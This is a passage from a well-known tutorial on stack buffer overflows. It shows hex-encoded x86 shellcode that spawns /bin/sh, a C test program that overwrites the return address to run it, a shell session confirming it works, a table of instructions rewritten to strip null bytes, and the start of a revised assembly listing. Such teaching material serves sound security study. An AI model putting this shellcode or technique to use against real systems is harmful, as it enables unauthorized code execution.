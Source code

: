 (gdb)
0x8000134 <main+4>:     0x2a
(gdb)
.
.
.
------------------------------------------------------------------------------

testsc.c
------------------------------------------------------------------------------
char shellcode[] =
	"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
	"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
	"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
	"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
------------------------------------------------------------------------------
------------------------------------------------------------------------------
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
------------------------------------------------------------------------------

   It works! But there is an obstacle.  In most cases we'll be trying to
overflow a character buffer.  As such any null bytes in our shellcode will be
considered the end of the string, and the copy will be terminated.  There must
be no null bytes in the shellcode for the exploit to work.  Let's try to
eliminate the bytes (and at the same time make it smaller).

           Problem instruction:                 Substitute with:
           --------------------------------------------------------
           movb   $0x0,0x7(%esi)                xorl   %eax,%eax
	   molv   $0x0,0xc(%esi)                movb   %eax,0x7(%esi)
                                                movl   %eax,0xc(%esi)
           --------------------------------------------------------
           movl   $0xb,%eax                     movb   $0xb,%al
           --------------------------------------------------------
           movl   $0x1, %eax                    xorl   %ebx,%ebx
           movl   $0x0, %ebx                    movl   %ebx,%eax
                                                inc    %eax
           --------------------------------------------------------

   Our improved code:

shellcodeasm2.c
------------------------------------------------------------------------------
void main() {
__asm__("
        jmp    0x1f                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
	movb   %eax,0x7(%esi)		# 3 bytes
        movl   %eax,0xc(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes